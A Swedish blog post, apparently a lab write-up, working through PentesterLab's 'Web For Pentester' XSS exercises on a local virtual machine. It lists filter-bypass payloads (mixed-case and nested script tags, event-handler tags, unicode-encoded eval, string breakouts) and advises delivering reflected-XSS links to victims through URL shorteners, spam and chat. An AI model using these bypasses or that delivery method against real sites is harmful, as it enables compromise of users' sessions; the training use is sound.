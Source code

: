 ```yaml
---
layout: post
title: PentesterLab - Web For Pentester
date: 2015-12-10 04:07:05.000000000 -03:00
type: post
published: true
status: publish
categories: []
tags: []
meta:
  _publicize_pending: '1'
  _rest_api_published: '1'
  _rest_api_client_id: "-1"
  _publicize_job_id: '17649752935'
  original_post_id: '640'
  _wp_old_slug: '640'
  _oembed_7f9d0109bc065e3af520a066fe02e09a: "{{unknown}}"
  _oembed_74b42dc54f1038cce5e93248a4615553: "{{unknown}}"
  _oembed_4cc83e58820069a7a005c30f7deae484: "{{unknown}}"
  _oembed_b3eb9f5ab7986428c8d6eaf946d2d149: "{{unknown}}"
  _oembed_0dceb30a5e5877e0ecc8566c4fc5bfa8: "{{unknown}}"
  _oembed_b6eee17f6dc70508a56f6c09fe8bb99a: "{{unknown}}"
  _oembed_518f55097adac6a59b665baddcb32eb1: "{{unknown}}"
  _oembed_7145571e50d86837191c2b2e2d5c1aec: "{{unknown}}"
  _oembed_1219502b81fa938d264f7e84f9d08029: "{{unknown}}"
  _oembed_a6a77992080e5588340fe5fe75362648: "{{unknown}}"
  _oembed_de708edb52ee58ccfacb497ceda3f6d4: "{{unknown}}"
  _oembed_96321c1e9a1c0c67564910813a578dc1: "{{unknown}}"
  _oembed_d29213c18f3edde831313a005cd58cb7: "{{unknown}}"
  _oembed_db49344cc5143108c62da305a5f1718a: "{{unknown}}"
  _oembed_487a666a47431d2ee55d4ab0f054984c: "{{unknown}}"
  _oembed_87547eb26e278d49da8333b9420035fd: "{{unknown}}"
  _oembed_11498d4aeb47e5355016441c13ee956a: "{{unknown}}"
  _oembed_73e55cde50701b7420e96ca659fa1e4d: "{{unknown}}"
  _oembed_3a0a99ead2c1998bd76ac126a387505c: "{{unknown}}"
  _oembed_2ba9178c9e8852edb437201babb1eabd: "{{unknown}}"
  _oembed_8261f68b9a05c68df57b7e284b94bff1: "{{unknown}}"
  _oembed_b48f326bcf1f0704bcab96497b3c6fc6: "{{unknown}}"
  _oembed_783a77ecb8cb3617842371274297badd: "{{unknown}}"
  _oembed_37067755f20ce6ad9bf5f45ab6f9c20a: "{{unknown}}"
  _oembed_e02233e8360a8c1bf719f7083f3df13c: "{{unknown}}"
  _oembed_05a20173b6c43b8aeca2b50359d83e51: "{{unknown}}"
  _oembed_4eecbc93b5f94af4051e54701a1d5fa4: "{{unknown}}"
  _oembed_60538a8d653f2b721a293c92cae28b76: "{{unknown}}"
  _oembed_27edc2309f4e48c6c8837ba1f4268b3f: "{{unknown}}"
  _oembed_3842842a3d7753e7ccbeab3407c08f0b: "{{unknown}}"
  _oembed_83312fe08ad368fd80f98e4f81111d81: "{{unknown}}"
  _oembed_1af79807535e662c0833742b3ceca475: "{{unknown}}"
author:
  login: tidlost
  email: philip.linghammar@protonmail.com
  display_name: tidlost
  first_name: ''
  last_name: ''
---
```


# Installera
Så. Först måste du ladda ner VirtualBox. Därefter skapa en ny linuxmaskin, 32bit.
Därefter laddar du ner .iso-filen. Klickas på settings i din maskin, och sedan på storeage, där det är empty lägger du till iso-filen. Sen går du över till nätverk å byter från LAN till Bridged.
Sedan startar du den virtuella maskinen. När den har laddat klart kör du kommandot:
`ifconfig`
Då får du reda på datorns interna ip. Kopiera det å klistra in det i den browser, så kommer sidan upp.

## XSS
Det finns i princip två sorters XSS. **Persistent** och **non-persistent**. Dessa kan även beskrivas som Server och DOM attacker. Non-persistent kallas ibland även för reflected.
Non-persistent: reflected.
Persistent: Server
I persistent så sparas scriptet, eller koden, i serverns databas. Så nästa gång som någon besöker sidan och servern skickar infon från databasen så innehåller den scriptet.
Persistent är självklart inte lika vanligt som non-persistent. Men det är mycket farligare attack.
Det finns även self-propagating.
Non-persistent/reflected.
Som man kan sedan nedan så kan XSS-attacker utföras direkt i adressfältet. Problemet är dock att attacken bara utsätter attackeraren själv som kör skriptet (när hen laddar sidan). Därför måste vi alltså lyckas transportera adressen med scriptet i till en annan användare. Detta kan göras genom url-förkortningar.
Google short blockerar om man försöker lägga in script. Men inte:
https://bitly.com/shorten/
Sedan krävs det vanlig hederlig social engineering. De vanligaste sätten är att skicka länkarna via spam eller via typ chatklienter. Typ skype. Ett annat sätt är att publicera länken på forum eller i kommentarsfält. Då kan man dessutom "gömma" adressen i en a href-tag.
Exempel 1.
Vi kan direkt se att i adressfältet kan man sätta in text som sedan skrivs ut på sidan.

```html
http://192.168.1.101/xss/example1.php?name=hacker
```
Här kan man alltså testa att sätta in ett script för att pröva om det exekivieras.

```html
http://192.168.1.101/xss/example1.php?name=<script>alert("hej")</script>
```
### Exempel 2
Här kan vi notera att om vi testar

```html
http://192.168.1.101/xss/example1.php?name=<script>alert("hej")</script>
```

Så skrivs bara `alert("hej")` ut. Vilket tyder på att något filtrerar bort script-taggarna. Vilket gör att scriptet tolkas som text och inte som kod.
För att komma runt det så kan vi köra den enklaste formen.

```html
http://192.168.1.101/xss/example1.php?name=<Script>alert("hej")</Script>
```

Alltså, vi ändrade så att script stavas med stor bokstav. Den regex filtrering som hade implementeras hade inte tänkt så långt.
### Exempel 3
Den här var lite knivigare. Hela

```javascript
<script>
```

Här nu bortfiltrerad.
Knepet blir därför att köra

```javascript
http://192.168.1.101/xss/example3.php?name=<scri<script>pt>alert("xss")</scri</script>pt>
```

### Exempel 4
Här har script helt å hållet filtrerats bort. Då får vi istället injecta javascript i andra taggar.
andra taggar där man kan göra det är
a
img
```javascript
http://192.168.1.101/xss/example4.php?name=hacker<img src="jj" onerror="alert('hello')"/>
http://192.168.1.101/xss/example4.php?name=hacker%3Ca%20onclick=%22alert(%27hej%27)%22%20href=%22test%22/%3Ehejejej%3C/a%3E
http://192.168.1.101/xss/example4.php?name=hacker<a href="alert("hej");">klicka mig</a>
http://192.168.1.101/xss/example4.php?name=hacker<button%20onclick=%27alert("hello")%27>button</button>
http://192.168.1.101/xss/example4.php?name=hacker%3Cimg%20src=%22ff%22%20onclick=%27alert(%22hej%22)%27%3E
http://192.168.1.101/xss/example4.php?name=hacker%3Cp%20onmouseup=%27alert(%22hello%22)%27%3EClick%20the%20text!%3C/p%3E
http://192.168.1.101/xss/example4.php?name=hacker%3Cp%20onmousedown=%27alert(%22hello%22)%27%3EClick%20the%20text!%3C/p%3E
```

Här funkar alltså alla javascript functioner men till element som inte innehåller ordet script.

### Exempel 5
I Exempel 5 verkar det som att de tillåter script-taggen igen men nu är det alert som är sanitized. Det är enkelt att komma undan. Om vi vill få upp en pop-up så kan vi antingen köra:

```javascript
http://192.168.1.101/xss/example5.php?name=hacker<script>prompt("hello")</script>
//eller
http://192.168.1.101/xss/example5.php?name=hacker<script>confirm("hello")</script>
//Eller så skriver vi scriptet i unicode-tecken.
http://192.168.1.101/xss/example5.php?name=hacker%3Cscript%3Eeval(%22u0061u006Cu0065u0072u0074u0028u0027u0068u0065u006Cu006Cu006Fu0027u0029%22);%3C/script%3E
```

Scriptet kan alltså skrivas i unicode-format. Eval utför koden oavsett om det är unicode/utf8/hexadecimal.
Om du enkelt vill förvanla utf8-text till unicode kan du använda den här koden:

```javascript
function toUnicode(theString) {
  var unicodeString = '';
  for (var i=0; i < theString.length; i++) {
    var theUnicode = theString.charCodeAt(i).toString(16).toUpperCase();
    while (theUnicode.length < 4) {
      theUnicode = '0' + theUnicode;
    }
    theUnicode = '\u' + theUnicode;
    unicodeString += theUnicode;
  }
  return unicodeString;
}
var uni = toUnicode(script);
console.log(uni);
```

### Exempel 6

Här har det skett lite. Om vi kollar i källkoden så ser vi att det vi skickar in blir tolkat som att det är en del av en string som sätts in i en variabel.
För att lösa det behöver vi först avsluta stringen å sedan lägga in vår kod, å sedan kommentera ut efterföljande kod.

```javascript
http://192.168.1.101/xss/example6.php?name=hacker";alert("hello");//
```

### Exempel 7
Här kan vi notera i källkoden att det är ungefär samma problem som Exempel 6. Skillnaden är bara att nu filteras alla `""`. Så vi använder bara `''` istället

```javascript
http://192.168.1.101/xss/example7.php?name=';alert('hello');//
```

### Exempel 8
Om vi klickar runt lite så kan vi se att vi kan injecta saker in i form-taggen. Där kan vi sen injecta vår alert via en onclick.

```javascript
http://192.168.1.101/xss/example8.php/%22onclick=%22alert('hello');
```
### Exempel 9

Den sista var ganska så enkel. koden i källkoden såg ut såhär:

```javascript
<script>
  document.write(location.hash.substring(1));
</script>
```

Vilket betyder att den skriver ut på hemsidan (document.write) vad som finns i adressen efter hash-markören. Alltså efter #
Detta är ett exempel på en DOM-based attack. Hemsidan kan vara statisk men det finns ändå risk genom att man skriver document.write(location.hash)
